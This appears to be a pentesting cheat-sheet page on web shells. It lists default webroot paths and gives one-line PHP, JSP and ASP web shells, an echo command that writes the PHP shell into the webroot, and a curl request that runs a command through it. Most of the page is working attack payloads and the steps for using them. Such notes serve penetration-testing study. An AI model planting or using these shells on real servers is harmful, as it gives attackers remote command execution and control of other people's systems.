 ```yaml
---
layout: default
title: Web shells
permalink: /web_shells/
---
```


# Web Shell
A Web Shell is typically a web script, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.
We need to place our web shell script into the remote host's web directory (webroot) to execute the script. This can be through a vulnerability.
<br>
| Web Server | Default Webroot           |
|------------|---------------------------|
| Apache     | `/var/www/html/`          |
| Nginx      | `/usr/local/nginx/html/`  |
| IIS        | `c:\inetpub\wwwroot\`     |
| XAMPP      | `C:\xampp\htdocs\`        |
<br>
We can check these directories to see which webroot is in use and then use echo to write out our web shell.

## PHP

```
<?php system($_REQUEST["cmd"]); ?>
```
```
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```
Accessing the web shell:
```
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

## JSP

```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## ASP

```
<% eval request("cmd") %>
```




